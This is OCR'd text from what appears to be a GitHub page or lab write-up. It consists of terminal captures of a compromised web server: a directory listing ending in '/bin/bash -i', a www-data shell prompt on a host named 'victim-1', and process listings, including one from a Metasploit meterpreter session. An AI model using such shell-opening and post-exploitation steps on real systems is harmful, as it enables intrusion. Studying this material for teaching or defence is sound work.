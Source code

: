 ```
phpinfo.php
style.css
xd_icons
zipstream.php
/bin/bash -i
bash: cannot set terminal process group (478): Inappropriate ioctl for device
bash: no job control in this shell
www-data@victim-1:/app$ 
```

```
www-data@victim-1:/app$ ps
ps
    PID TTY          TIME CMD
    636 ?        00:00:00 apache2
    637 ?        00:00:00 apache2
    638 ?        00:00:00 apache2
    639 ?        00:17:04 apache2
    643 ?        00:00:00 apache2
    860 ?        00:00:00 apache2
    861 ?        00:00:00 apache2
    862 ?        00:00:00 sh
    863 ?        00:00:00 sh
    865 ?        00:00:00 bash
    868 ?        00:00:00 ps
```

```
meterpreter > ps

Process List
============

 PID  Name              User      Path
 ---  ----              ----      ----
 1    /bin/bash         root      /bin/bash /startup.sh
 7    logger            root      logger -loc 1 --dont_kill
 8    logger            root      logger -loc 2 --dont_kill
 9    logger            root      logger -loc 3 --dont_kill
 10   logger            root      logger -loc 4 --dont_kill
 11   logger            root      logger -loc 5 --dont_kill
 12   logger            root      logger -loc 6 --dont_kill
 13   logger            root      logger -loc 7 --dont_kill
 14   logger            root      logger -loc 8 --dont_kill
 15   logger            root      logger -loc 9 --dont_kill
 16   logger            root      logger -loc 10 --dont_kill
 17   logger            root      logger -loc 11 --dont_kill
 18   logger            root      logger -loc 12 --dont_kill
 19   logger            root      logger -loc 13 --dont_kill
 20   logger            root      logger -loc 14 --dont_kill
 21   logger            root      logger -loc 15 --dont_kill
 22   logger            root      logger -loc 16 --dont_kill
 23   logger            root      logger -loc 17 --dont_kill
 24   logger            root      logger -loc 18 --dont_kill
 25   logger            root      logger -loc 19 --dont_kill
 26   logger            root      logger -loc 20 --dont_kill
 27   loader            root      loader -1 -pid 512 --cpu restart
 28   loader            root      loader -2 -pid 12 --cpu restart
 29   loader            root      loader -3 -pid 1512 --cpu restart
 30   loader            root      loader -4 -pid 5012 --cpu restart
 31   loader            root      loader -5 -pid 5112 --cpu restart
 32   loader            root      loader -6 -pid 2512 --cpu restart
 33   loader            root      loader -7 -pid 52 --cpu restart -flat 1
 34   loader            root      loader -7 -pid 52 --cpu restart -flat 2
```